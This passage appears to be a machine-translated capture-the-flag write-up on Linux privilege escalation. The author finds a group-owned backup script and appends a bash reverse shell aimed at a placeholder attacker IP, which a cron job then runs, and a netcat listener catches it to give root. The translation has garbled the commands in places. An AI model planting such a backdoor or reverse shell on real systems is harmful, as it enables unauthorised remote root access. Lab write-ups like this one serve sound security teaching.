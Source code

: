 ## [Linux 中的输入、输出和错误重定向](https://linuxhandbook.com/redirection-linux/)

*find/-type f-group admin 2>/dev/null*

![](img/7a5998d8e4049a9a300f6ac3dfd36802.png)

我们得到了 backfile，我们可以看到这是一个 bash 脚本，它复制了一些备份。然后我决定在这个脚本中添加反向 shell，因为我知道有一个 cronjob 正在执行。当我想获得反向 shell 时，我总是参考 GTFOBins GitHub 页面，它有很多有趣的东西。

 [## 数控| GTFOBins

### 它可以向侦听攻击者发送反向外壳，以打开远程网络访问。它能把贝壳绑在…

gtfobins.github.io](https://gtfobins.github.io/gtfobins/nc/) 

*echo '/bin/bash-I>&/dev/TCP/<thm _ IP>/1234 0>&1 '>>/usr/local/bin/main _ backup . sh*

![](img/cc01cafd090a2c19d6fe8eff452451ee.png)

然后我开始 Netcat 监听端口 1234。

*nc -lvnp 1234*

![](img/b249d924bef31369b8dbc7c640cb0644.png)

嘣！我们找到了根。
